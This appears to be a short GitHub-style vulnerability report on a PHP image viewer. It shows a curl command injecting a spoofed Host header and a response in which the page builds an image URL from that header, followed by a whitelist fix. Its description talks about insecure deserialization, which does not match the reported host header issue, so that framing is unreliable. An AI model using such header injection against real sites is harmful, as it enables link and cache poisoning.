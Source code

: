 ### Description

Insecure deserialization often leads to remote code execution. Even if deserialization flaws do not result in remote code execution, they can be used to perform attacks,including replay attacks, injection attacks, and privilege escalation attacks.

refers : 
* https://portswigger.net/kb/issues/00200200_http-response-header-injection 
* https://www.owasp.org/index.php/Top_10-2017_A8-Insecure_Deserialization

### Issue 

It is possible to Host Header Injection on server and it will reflect in web page.

### Expolit 


```console
curl -i http://0 --header "host:example.com"
```

Get Response : 

```html
HTTP/1.1 200 OK
Host: example.com
Date: Fri, 20 Dec 2019 22:35:47 +0530
Connection: close
X-Powered-By: PHP/7.2.9-1
Content-type: text/html; charset=UTF-8

<!DOCTYPE html>
<body>
<center>
<fieldset>
<legend>IMG viewer</legend>
<img width="500" src="http://example.com/img.png" >
</fieldset>
</center>
</body>
</html>	
```
### Fix 

Server reject anything that doesn't match with the white listed host 
